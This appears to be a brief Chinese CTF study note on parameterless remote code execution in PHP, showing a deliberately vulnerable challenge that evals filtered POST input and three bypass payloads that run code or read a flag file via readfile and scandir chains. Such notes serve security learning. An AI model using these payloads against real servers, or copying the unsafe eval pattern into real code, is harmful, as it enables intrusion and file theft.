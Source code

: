 比较详细<br />[https://www.cnblogs.com/pursue-security/p/15406272.html](https://www.cnblogs.com/pursue-security/p/15406272.html)<br />对变量的利用进行了补充，对php读取进行了补充<br />[https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)<br />![F80X1~XVGAUW5B{~HHE3)16.jpg](./images/20231017_2351102577.png)
```python
<?php
highlight_file(__FILE__);
if ($_POST['cmd']) {
    $cmd = $_POST['cmd'];
    if (';' === preg_replace('/[a-z_]+\((?R)?\)/', '', $cmd)) {
        if (preg_match('/file|if|localeconv|phpversion|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log|var_dump|pos|current|array|time|se|ord|uniqid|implode|scandir|hebrevc/i', $cmd)) {
            die('老实点');
        } else {
            eval($cmd);
        }
    } else {
        die('请重新输入');
    }
}
```

# 无参rce的一些payload
```php
call_user_func(...unserialize(end(getallheaders())));
```
```php
?code=eval(next(current(get_defined_vars())));&paylaod=readfile("../flag_phpbyp4ss");
```
```php
readfile(next(array_reverse(scandir(dirname(chdir(dirname(getcwd())))))));
```
